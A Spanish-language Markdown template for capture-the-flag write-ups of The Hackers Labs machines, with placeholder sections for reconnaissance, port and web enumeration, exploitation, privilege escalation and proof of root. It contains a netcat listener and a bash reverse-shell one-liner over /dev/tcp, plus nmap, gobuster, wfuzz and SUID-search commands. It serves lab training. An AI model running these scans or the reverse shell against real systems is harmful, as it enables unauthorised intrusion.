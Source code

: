 # Writeup Template: Maquina `[Nombre_Máquina]`

- Tags: `[Etiqueta1]` `[Etiqueta2]` `[Etiqueta3]`
- Dificultad: `[Baja/Media/Alta/Insane]`
- Plataforma: `[ The Hackers Labs ]`

---
## Configuracion del Entorno
**Nota:** Pagina oficcioal donde descargo los laboratorios: [The Hackers Labs](https://labs.thehackerslabs.com/)
- Descargamos el archivo **( .ova )**
- Descomprimimos el archivo **zip**
- Importamos el **ova** en **virtualBox**

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
[IP_TARGET]
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 [IP_TARGET] 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py [IP_TARGET]
# TTL: [Valor] -> [Sistema_Operativo]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t [IP_TARGET] -p [Rango_Puertos]

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn [IP_TARGET] -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p[Puertos_Abiertos] [IP_TARGET] -oN targeted
```

**Servicios identificados:**
```bash
# Aqui los servicios
```
---

## Enumeracion de [Servicio  Principal]
direccion **URL** del servicio:
```bash
http://IP
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```
### Descubrimiento de Archivos y Rutas
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] -x [Extensiones]
```

- **Hallazgos**:
```bash
/admin (Status: 200) [Size: 1534]
/backup (Status: 301) [Size: 315]
```

### Descubrimiento de Subdominios
```bash
wfuzz -c -w [Diccionario] -H "Host:FUZZ.Aqui la URL" -u [IP_Objetivo]
```

- **Hallazgos**:
	Aqui los subdominios
### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
[Descripción breve del método de explotación]

### Ejecucion del Ataque
```bash
# Comandos para explotación
[comando_explotacion]
```

### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id
sudo -l
find / -perm -4000 2>/dev/null
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios

###### Usuario `[ Nombre-Usuario ]`:

```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```
